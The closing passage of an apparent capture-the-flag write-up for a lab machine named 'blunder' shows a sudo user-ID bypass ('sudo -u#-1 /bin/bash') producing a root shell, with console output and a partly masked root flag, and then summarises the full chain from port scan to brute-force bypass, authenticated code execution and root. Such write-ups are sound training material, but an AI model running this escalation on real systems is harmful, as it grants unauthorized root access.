 - use `-u#-1` or `-u#4294967295` to execute bash as root priv

```console
hugo@blunder:/tmp$ sudo -u#-1 /bin/bash # sudo -u#4294967295 /bin/bash
root@blunder:/tmp# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/tmp# uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@blunder:/tmp# cat /root/root.txt
63e2a7e25cexxxxxxxxxxxxxxxxxxxxx
```

## Exploit Chain

port scan -> path scan -> username get, cms version get -> brute force mitigation bypass -> cms cred get -> authenticated rce -> www-data shell -> enum: sudo version -> -u#-1 or -u#4294967295 -> root shell
